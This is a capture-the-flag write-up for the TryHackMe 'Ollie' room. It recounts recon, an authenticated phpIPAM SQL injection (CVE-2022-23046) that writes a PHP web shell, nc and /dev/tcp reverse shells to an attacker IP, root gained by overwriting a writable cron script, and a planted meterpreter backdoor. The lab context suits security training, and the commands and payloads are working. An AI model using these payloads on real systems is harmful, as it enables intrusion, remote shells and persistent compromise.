





## Service Detection
```bash
$ nmap -sC -sV -p$(nmap --min-rate=2000 -T4 -p- ollie.thm | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//') ollie.thm -oN tcp.txt 


PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b7:1b:a8:f8:8c:8a:4a:53:55:c0:2e:89:01:f2:56:69 (RSA)
|   256 4e:27:43:b6:f4:54:f9:18:d0:38:da:cd:76:9b:85:48 (ECDSA)
|_  256 14:82:ca:bb:04:e5:01:83:9c:d6:54:e9:d1:fa:c4:82 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 2 disallowed entries 
|_/ /immaolllieeboyyy
| http-title: Ollie :: login
|_Requested resource was http://ollie.thm/index.php?page=login
1337/tcp open  waste?
| fingerprint-strings: 
|   DNSStatusRequestTCP, GenericLines: 
|     Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.
|     What is your name? What's up, 
|     It's been a while. What are you here for?
|   DNSVersionBindReqTCP: 
|     Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.
|     What is your name? What's up, 
|     version
|     bind
|     It's been a while. What are you here for?
|   GetRequest: 
|     Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.
|     What is your name? What's up, Get / http/1.0
|     It's been a while. What are you here for?
|   HTTPOptions: 
|     Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.
|     What is your name? What's up, Options / http/1.0
|     It's been a while. What are you here for?
|   Help: 
|     Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.
|     What is your name? What's up, Help
|     It's been a while. What are you here for?
|   NULL, RPCCheck: 
|     Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.
|     What is your name?
|   RTSPRequest: 
|     Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.
|     What is your name? What's up, Options / rtsp/1.0
|_    It's been a while. What are you here for?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
...
...
```
## Debugging Contents
```bash
$ curl -sI ollie.thm
HTTP/1.1 302 Found
Date: REDACTED
Server: Apache/2.4.41 (Ubuntu)
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Set-Cookie: phpipamredirect=%2F; expires=Tue, 03 Dec 2024 02:34:52 +0000; Max-Age=120; path=/; SameSite=Lax; HttpOnly;
Location: http://ollie.thm/index.php?page=login
Content-Type: text/html; charset=UTF-8
```
## Login contents
```bash
$ curl -v http://ollie.thm/index.php?page=login
* Host ollie.thm:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.108.6
*   Trying 10.10.108.6:80...
* Connected to ollie.thm (10.10.108.6) port 80
> GET /index.php?page=login HTTP/1.1
> Host: ollie.thm
> User-Agent: curl/8.8.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Date: REDACTED
< Server: Apache/2.4.41 (Ubuntu)
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Set-Cookie: phpipam=rotdlmhfi535pt1ns0h40l1v48; expires=Wed, 04 Dec 2024 02:34:51 +0000; Max-Age=86400; path=/; SameSite=Lax; HttpOnly;
< X-XSS-Protection: 1; mode=block
< Vary: Accept-Encoding
< Content-Length: 4729
< Content-Type: text/html; charset=UTF-8
< 

<!DOCTYPE HTML>
<html lang="en">

<head>
	<base href="http://ollie.thm/">

	<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
	<meta http-equiv="Cache-Control" content="no-cache, must-revalidate">

	<meta name="Description" content="">
	<meta name="title" content="Ollie :: login">
	<meta name="robots" content="noindex, nofollow">
	<meta http-equiv="X-UA-Compatible" content="IE=9" >

	<meta name="viewport" content="width=device-width, initial-scale=0.7, maximum-scale=1, user-scalable=no">

	<!-- chrome frame support -->
	<meta http-equiv="X-UA-Compatible" content="chrome=1">

	<!-- title -->
	<title>Ollie :: login</title>

	<!-- css -->
	<link rel="stylesheet" type="text/css" href="css/bootstrap/bootstrap.min.css?v=1.4.5_r031_v25">
	<link rel="stylesheet" type="text/css" href="css/bootstrap/bootstrap-custom.css?v=1.4.5_r031_v25">
	<link rel="stylesheet" type="text/css" href="css/font-awesome/font-awesome.min.css?v=1.4.5_r031_v25">
		<link rel="stylesheet" type="text/css" href="css/bootstrap/bootstrap-custom-dark.css?v=1.4.5_r031_v25">
		<link rel="shortcut icon" href="css/images/favicon.png">

	<!-- js -->
	<script src="js/jquery-3.5.1.min.js?v=1.4.5_r031_v25"></script>
	<script src="js/login.js?v=1.4.5_r031_v25"></script>
	<script src="js/bootstrap.min.js?v=1.4.5_r031_v25"></script>
	<script>
	$(document).ready(function(){
	     if ($("[rel=tooltip]").length) { $("[rel=tooltip]").tooltip(); }
	});
	</script>
	<!--[if lt IE 9]>
	<script type="text/javascript" src="js/dieIE.js"></script>
	<![endif]-->
</head>
...
...
```


## Directory and file enumeration
```bash
$ feroxbuster -u http://ollie.thm -w /usr/share/seclists/Discovery/Web-Content/big.txt --scan-dir-listings 

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://ollie.thm
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/big.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 📂  Scan Dir Listings     │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────

302  GET  http://ollie.thm/ => http://ollie.thm/index.php?page=login
301  GET  http://ollie.thm/immaolllieeboyyy => http://ollie.thm/immaolllieeboyyy/
301  GET  http://ollie.thm/api => http://ollie.thm/api/
301  GET  http://ollie.thm/app => http://ollie.thm/app/
200  GET  http://ollie.thm/app/error.php
200  GET  http://ollie.thm/app/footer.php
302  GET  http://ollie.thm/app/json/section/subnets.php => http://ollie.thm/index.php?page=login
301  GET  http://ollie.thm/app/admin => http://ollie.thm/app/admin/
301  GET  http://ollie.thm/app/json/section => http://ollie.thm/app/json/section/
301  GET  http://ollie.thm/app/sections => http://ollie.thm/app/sections/
301  GET  http://ollie.thm/app/install => http://ollie.thm/app/install/
301  GET  http://ollie.thm/app/login => http://ollie.thm/app/login/
301  GET  http://ollie.thm/app/tools => http://ollie.thm/app/tools/
301  GET  http://ollie.thm/app/folder => http://ollie.thm/app/folder/
301  GET  http://ollie.thm/app/temp_share => http://ollie.thm/app/temp_share/
301  GET  http://ollie.thm/app/saml2 => http://ollie.thm/app/saml2/
301  GET  http://ollie.thm/app/dashboard => http://ollie.thm/app/dashboard/
200  GET  http://ollie.thm/api/README
301  GET  http://ollie.thm/app/subnets/addresses => http://ollie.thm/app/subnets/addresses/
301  GET  http://ollie.thm/css => http://ollie.thm/css/
301  GET  http://ollie.thm/app/admin/api => http://ollie.thm/app/admin/api/
301  GET  http://ollie.thm/db => http://ollie.thm/db/
301  GET  http://ollie.thm/app/login/captcha => http://ollie.thm/app/login/captcha/
301  GET  http://ollie.thm/app/tools/changelog => http://ollie.thm/app/tools/changelog/
301  GET  http://ollie.thm/app/tools/circuits => http://ollie.thm/app/tools/circuits/
301  GET  http://ollie.thm/app/admin/circuits => http://ollie.thm/app/admin/circuits/
301  GET  http://ollie.thm/imgs => http://ollie.thm/imgs/
301  GET  http://ollie.thm/app/admin/devices => http://ollie.thm/app/admin/devices/
```
## SQL database
> extracted from (db) folder - schema.sql
```sql
INSERT INTO `users` 
    (`id`, `username`, `password`, `groups`, `role`, `real_name`, `email`, `domainUser`, `widgets`, `passChange`)
VALUES
    (
        1,
        'Admin',
        X'243624726F756E64733D33303030244A51454536644C394E70766A6546733424524B3558336F6132382E557A742F6835564166647273766C56652E3748675155594B4D58544A5573756438646D5766507A5A51506252626B38784A6E314B797974342E64576D346E4A4959684156326D624F5A33672E',
        X'',
        'Administrator',
        'phpIPAM Admin',
        'admin@domain.local',
        X'30',
        'statistics;favourite_subnets;changelog;access_logs;error_logs;top10_hosts_v4',
        'Yes'
    );
```
## From hex to UTF-8
```python 
#!/usr/bin/env python3

def hex_utf8(hex_string):
	byte_array = bytes.fromhex(hex_string)
	
	utf = byte_array.decode('utf_8')
	return utf

hex = 'add your hex here'
utf8_result = hex_utf8(hex)
print("Decoded:", utf8_result)
```
## Output
```py 
# It just a rabbit hole
$ python3 hex.py
Decoded: $6$rounds=3000$JQEE6dL9NpvjeFs4$RK5X3oa28.Uzt/h5VAfdrsvlVe.7HgQUYKMXTJUsud8dmWfPzZQPbRbk8xJn1Kyyt4.dWm4nJIYhAV2mbOZ3g.
```
## Hashtype
```bash
Hashmode    Hashname         Encrytion          Hash example
-------    ----------        ---------          ------------
1800 	   sha512crypt $6$   SHA512 (Unix) 2 	$6$52450745$k5ka2p8bFuSmoVT1tzOyyuaREkkKBcCNqoDKzYiJL9RaE8yMnPgh2XzzF0NDrUhgrcLwg78xs1w5pJiypEdFX/ 
```
## Checking another service 
```bash
$ nc ollie.thm 1337 
Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.

What is your name? admin

What's up, Admin! It's been a while. What are you here for? password
Ya' know what? Admin. If you can answer a question about me, I might have something for you.


What breed of dog am I? I'll make it a multiple choice question to keep it 

easy: Bulldog, Husky, Duck or Wolf? bulldog

You are correct! Let me confer with my trusted colleagues; Benny, Baxter and Connie...
Please hold on a minute
Ok, I'm back.
After a lengthy discussion, we've come to the conclusion that you are the right person for the job.Here are the credentials for our administration panel.

                    Username: admin

                    Password: OllieUnixMontgomery!

PS: Good luck and next time bring some treats!
```
## phpIPAM 
> login credentials 
```bash
Username: admin
Password: OllieUnixMontgomery!
```
> An Indication of login successfull


## Vulnerability Identification
> I tried multiple times using this automated script, but it didn't work. After searching, I found that manual exploitation works using the steps below.
```bash
$ PHPIPAM 1.4.4 - SQLi (Authenticated)         					|	https://www.exploit-db.com/exploits/50684
$ phpIPAM 1.4.5 - Remote Code Execution (RCE) (Authenticated) 	| 	https://www.exploit-db.com/exploits/50963
```
## Exploit details
> searching for public exploit 
```bash
python3 sploitscan.py CVE-2022-23046

███████╗██████╗ ██╗      ██████╗ ██╗████████╗███████╗ ██████╗ █████╗ ███╗   ██╗
██╔════╝██╔══██╗██║     ██╔═══██╗██║╚══██╔══╝██╔════╝██╔════╝██╔══██╗████╗  ██║
███████╗██████╔╝██║     ██║   ██║██║   ██║   ███████╗██║     ███████║██╔██╗ ██║
╚════██║██╔═══╝ ██║     ██║   ██║██║   ██║   ╚════██║██║     ██╔══██║██║╚██╗██║
███████║██║     ███████╗╚██████╔╝██║   ██║   ███████║╚██████╗██║  ██║██║ ╚████║
╚══════╝╚═╝     ╚══════╝ ╚═════╝ ╚═╝   ╚═╝   ╚══════╝ ╚═════╝╚═╝  ╚═╝╚═╝  ╚═══╝
v0.11.0 / Alexander Hagenah / @xaitax / ah@primepage.de

╔════════════════════════╗
║ CVE ID: CVE-2022-23046 ║
╚════════════════════════╝

┌───[ 🔍 Vulnerability information ]
|
├ Published:   2022-01-19
├ Base Score:  N/A (N/A)
├ Vector:      N/A
└ Description: PhpIPAM v1.4.4 allows an authenticated admin user to inject 	SQL sentences in the "subnet" parameter
               while searching a subnet via app/admin/routing/edit-bgp-mapping-search.php

┌───[ 💣 Public Exploits (Total: 4) ]
|
├ GitHub
│  ├ Date: 2022-05-24 - https://github.com/bernauers/CVE-2022-23046
│  ├ Date: 2022-04-27 - https://github.com/hadrian3689/phpipam_1.4.4
│  └ Date: 2022-02-15 - https://github.com/dnr6419/CVE-2022-23046
│
├ Exploit-DB
│  └ Date: 2022-01-25 - https://www.exploit-db.com/exploits/50684
│
└ Other
   └ PacketStorm: https://packetstormsecurity.com/search/?q=CVE-2022-23
```

 

# Initial Footfold

## Option 1: Manual payload 
> recommended for new players 
```bash
# grab user  
" union select @@version,2,user(),4 -- -

# execute system command 
<?php system($_GET["cmd"]); ?>

# command converted into hex decimal and write into specified path 
" UNION SELECT 1,0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d,3,4 INTO OUTFILE "/var/www/html/shell.php" -- -
```
> Note: In the routing information, there is already configured peer name `ThisIsTheOne`. You can also add a new peer name using the instructions below.

## Steps to insert payload
- Go to `settings` and enable the routing module
- Go to show `routing`
- Click on `“Add peer”` and create a new `“BGP peer”`
- Click on the newly created `“BGP peer”`
- Click on `“Actions”` and go to `“Subnet Mapping”`
- Scroll down to `“Map new subnet”`
- Insert an SQL Injection sentence inside the search parameter, for example: `“ union select @@version,2,user(),4 – -` 

 

```bash
# crafting payload 
step 1: nc reverse shell: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.23.42.147 9001 >/tmp/f
step 2: convert payload into url encoded goto:  https://www.urlencoder.org/
step 3: paste url encoded url here: curl http://ollie.thm/rev.php?cmd=url_encoded
step 4: catch you payload using:  rlwrap -cAr nc -lvnp 9001 
```
```bash
# it should look like this 
$ curl http://ollie.thm/shell.php?cmd=rm%20/tmp/f%3B%20mkfifo%20/tmp/f%3B%20cat%20/tmp/f%20%7C%20/bin/bash%20-i%202%3E%261%20%7C%20nc%2010.23.42.147%209001%20%3E%20/tmp/f

# another terminal
$ rlwrap -cAr nc -lvnp 9001 
```

## Option 2: Burpsuite post request 
> save into req.txt then fireup sqlmap using this command   

> [found a reverse shell php from pentest monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
```bash
# I don't recommend using this method; I encountered a lot of errors, and it turned out to be complete waste of time for me or maybe I messed up something :(
$ sqlmap -r req.txt -dbs --file-dest=/var/www/html/shell.php --file-write=./shell.php
```
```bash
POST /app/admin/routing/edit-bgp-mapping-search.php HTTP/1.1
Host: ollie.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 68
Origin: http://ollie.thm
Connection: keep-alive
Referer: http://ollie.thm/index.php?page=administration&section=routing&subnetId=bgp&sPage=1
Cookie: phpipam=001acrp50sa37h5e4l6s0dokdv; table-page-size=50; search_parameters=%7B%22addresses%22%3A%22on%22%2C%22subnets%22%3A%22on%22%2C%22vlans%22%3A%22on%22%2C%22vrf%22%3A%22off%22%2C%22pstn%22%3A%22off%22%2C%22circuits%22%3A%22on%22%2C%22customers%22%3A%22on%22%7D

subnet=%22+UNION+SELECT+1%2C0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d%2C3%2C4+INTO+OUTFILE+%22%2Fvar%2Fwww%2Fhtml%2Fshell.php%22+--+-&bgp_id=1
```



## Verify payload  	
> `<?php system($_GET["cmd"]); ?>` 
```bash 
$ curl http://ollie.thm/shell.php\?cmd\=whoami
1	 www-data
 	3	4
```

## Option 3: Automated script to obtain (RCE)
> recommended for experienced players who are able to fix errors.

I've been stuck for hours trying to figure out why most CTF players in this room are using manual methods. Then after few hours I figured out how to fully automate this exploit and make it functional but not 100%, I hope this helps if you're new to this room :)

<br>


```bash
$ python3 exploit.py -h                                                                    
 _____ _____ _____ _____ _____ _____ _____     _____ _____ __    _   
|  _  |  |  |  _  |     |  _  |  _  |     |___|   __|     |  |  |_|  
|   __|     |   __|-   -|   __|     | | | |___|__   |  |  |  |__| |  
|__|  |__|__|__|  |_____|__|  |__|__|_|_|_|   |_____|__  _|_____|_|  
                                                       |__|          
        
        Author: l0m3m4n  | SQL Injection (RCE) | THM - Ollie

usage: exploit.py [-h] -t TARGET -u USERNAME -p PASSWORD -l LOCAL_IP -P LOCAL_PORT

Exploit CVE-2022-23046 - SQL Injection (RCE)

options:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        Target IP or domain
  -u USERNAME, --username USERNAME
                        Username for login
  -p PASSWORD, --password PASSWORD
                        Password for login
  -l LOCAL_IP, --local_ip LOCAL_IP
                        Your local IP address for reverse shell
  -P LOCAL_PORT, --local_port LOCAL_PORT
                        Your local port for reverse shell

Example: python3 exploit.py -t ollie.thm -u admin -p OllieUnixMontgomery! -l 10.23.42.147 -P 9001
```
```bash
$ python3 exploit.py -t ollie.thm -u admin -p OllieUnixMontgomery! -l 10.23.42.147 -P 9001                                                                              
Target: ollie.thm
Username: admin
Password: OllieUnixMontgomery!
Local IP: 10.23.42.147
Local Port: 9001
[+] Cookie obtained: rbj9lla4l5hs7q7p8ihu0qt52m
[+] Exploit executed successfully.
[+] Web shell uploaded at: http://ollie.thm/reverse.php
[+] Reverse Shell Payload: rm%20/tmp/f%3B%20mkfifo%20/tmp/f%3B%20cat%20/tmp/f%20%7C%20/bin/bash%20-i%202%3E%261%20%7C%20nc%2010.23.42.147%209001%20%3E%20/tmp/f

[+] Use the following to interact with the shell:
[+] curl http://ollie.thm/rev.php?cmd=rm%20/tmp/f%3B%20mkfifo%20/tmp/f%3B%20cat%20/tmp/f%20%7C%20/bin/bash%20-i%202%3E%261%20%7C%20nc%2010.23.42.147%209001%20%3E%20/tmp/f
```
## Listener
```bash
$ rlwrap -cAr nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.23.42.147] from (UNKNOWN) [10.10.244.91] 35918
bash: cannot set terminal process group (839): Inappropriate ioctl for device
bash: no job control in this shell

www-data@hackerdog:/var/www/html
```
## User Flag
```bash
www-data@hackerdog:/var/www/html$ su - ollie 
su - ollie 
Password: OllieUnixMontgomery!
ls
user.txt
cat user.txt
THM{Ollie_boi_is_daH_Cut3st} # cute daw tong si ollie boi wahahaha bakla ata tong si '0day' eh Imao!  http://ollie.thm/immaolllieeboyyy/
```

## Privilege Escalation




## Gaining root
>  create a reverse shell command to gain root access in a one-liner without modifying the file using nano or vim.
```bash
# search writable file
$ find / -type f -perm 764 -exec ls -al {} \; 2>/dev/null 

-rwxrw-r-- 1 root ollie 30 Feb 12  2022 /usr/bin/feedme

# feedme is a shell script 
ollie@hackerdog:~$ file /usr/bin/feedme

/usr/bin/feedme: Bourne-Again shell script, ASCII text executable

# copy feedme to /tmp dir
ollie@hackerdog:/tmp$ cp -r /usr/bin/feedme 

ollie@hackerdog:/tmp$ ls
ls
f  feedme  tmux-1000

# overwrite rev shell
ollie@hackerdog:/tmp$ echo "/bin/bash -i >& /dev/tcp/10.23.42.147/9001 0>&1" >> /tmp/feedme

# confirmation
ollie@hackerdog:/tmp$ cat feedme
cat feedme
#!/bin/bash

# This is weird?
/bin/bash -i >& /dev/tcp/10.23.42.147/443 0>&1

# move /tmp/feedme to /usr/bin/feedme
ollie@hackerdog:/tmp$ cat feedme > /usr/bin/feedme
```
```bash
# check if successfully overwrite
ollie@hackerdog:/tmp$ cat /usr/bin/feedme
#!/bin/bash

# This is weird?
/bin/bash -i >& /dev/tcp/10.23.42.147/443 0>&1
```

## Listener to catch crons jobs
```bash
$ time sudo rlwrap -cAr nc -lvnp 443
listening on [any] 443 ...
connect to [10.23.42.147] from (UNKNOWN) [10.10.63.255] 47524
bash: cannot set terminal process group (42131): Inappropriate ioctl for device
bash: no job control in this shell
root@hackerdog:/# 

real	40.95s # take 40 seconds to gain root access 
user	0.01s
sys	0.01s
cpu	0%	
```

## Root flag
```bash
THM{Ollie_Luvs_Chicken_Fries}
```

## Planting backdoors 
> When I play CTF, I always plant backdoors to ensure a stable connection and shell in case I accidentally exit. I also use socat in case I accidentally press Ctrl+X.
```bash
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.23.42.147 LPORT=443 -f elf > reverse.elf


/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


       =[ metasploit v6.4.34-dev                          ]
+ -- --=[ 2462 exploits - 1267 auxiliary - 431 post       ]
+ -- --=[ 1471 payloads - 49 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                   Information           Connection
  --  ----  ----                   -----------           ----------
  1         meterpreter x86/linux  ollie @ 10.10.63.255  10.23.42.147:443 -> 10.10.63.255:47512 (10.10.63.255)

msf6 exploit(multi/handler) > sessions -i 1

```